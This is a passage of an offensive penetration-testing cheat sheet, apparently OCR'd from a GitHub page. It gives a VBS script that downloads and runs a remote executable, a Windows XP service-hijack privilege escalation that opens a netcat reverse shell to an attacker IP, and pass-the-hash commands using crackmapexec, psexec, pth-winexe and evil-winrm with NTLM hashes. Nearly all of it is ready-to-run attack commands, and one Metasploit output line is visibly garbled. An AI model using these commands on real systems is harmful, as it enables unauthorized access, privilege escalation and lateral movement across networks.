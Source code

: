 ```
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.11.1.111/file.exe file.exe
```

### Windowss XP SP1 PrivEsc

```bash
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.1.111 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```

### Pass The Hash

```
# Login as user only with hashdump
# From this hashdump
# admin2:1000:aad3b435b51404eeaad3b435b51404ee:7178d3046e7ccfac0469f95588b6bdf7:::

## CRACK MAP EXEC

crackmapexec smb 192.168.68.122-126 -u fcastle -d MARVEL.local -H <NTLM Hash> --local-auth # Check other machines for dual access with the same hash; --sam (dump SAM file)

crackmapexec smb 192.168.68.122-126 -u fcastle -d MARVEL.local -p <P@ssw0rd1>

## PSEXEC

psexec.py "frank castle":@192.168.68.122 -hashes aad3b435b51404eeaad3b435b51404ee:ae974876d974abd805a989ebead86846 # attempt to gain a shell

## Pth-Winexe

pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:ee0c207898a5bccc01f38115019ca2fb //10.11.1.24 cmd

##Evil-Winrm

evil-winrm  -i 192.168.1.100 -u Administrator -H 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'

evil-winrm  -i 192.168.1.100 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae974876d974abd805a989ebead86846 -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'



msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target address range or CIDR identifier
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCR10.11.1.111TION                    no        Service description to to be used on target for pretty listing
```